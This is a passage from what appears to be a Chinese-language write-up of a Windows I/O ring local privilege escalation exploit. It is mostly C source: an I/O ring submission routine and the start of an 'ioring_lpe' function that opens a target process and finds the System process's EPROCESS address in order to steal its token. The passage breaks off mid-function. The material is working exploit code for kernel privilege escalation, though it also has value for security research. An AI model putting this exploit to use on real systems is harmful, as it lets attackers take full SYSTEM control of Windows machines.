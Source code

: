 ```
 
    ret = SubmitIoRing(hIoRing, 0, 0, NULL);
 
    if (0 != ret)
    {
        goto done;
    }
 
    ret = PopIoRingCompletion(hIoRing, &cqe);
 
    if (0 != ret)
    {
        goto done;
    }
 
    if (0 != cqe.ResultCode)
    {
        ret = cqe.ResultCode;
        goto done;
    }
 
    ret = 0;
 
done:
    if (NULL != pMcBufferEntry)
    {
        VirtualFree(pMcBufferEntry, sizeof(IOP_MC_BUFFER_ENTRY), MEM_RELEASE);
    }
    return ret;
}
```  
####   
#### I/O ring lpe  
  
  
找到system进程然后替换token。  
```
int ioring_lpe(ULONG pid, ULONG64 ullFakeRegBufferAddr, ULONG ulFakeRegBufferCnt)
{
    int ret = -1;
    HANDLE hProc = NULL;
    ULONG64 ullSystemEPROCaddr = 0;
    ULONG64 ullTargEPROCaddr = 0;
    PVOID pFakeRegBuffers = NULL;
    _HIORING* phIoRing = NULL;
    ULONG64 ullSysToken = 0;
    char null[0x10] = { 0 };
 
    hProc = OpenProcess(PROCESS_QUERY_INFORMATION, 0, pid);
 
    if (NULL == hProc)
    {
        ret = GetLastError();
        goto done;
    }
 
    ret = getobjptr(&ullSystemEPROCaddr, 4, 4);
 
    if (0 != ret)
    {
        goto done;
    }
 
    printf("[+] System EPROC address: %llx\n", ullSystemEPROCaddr);
```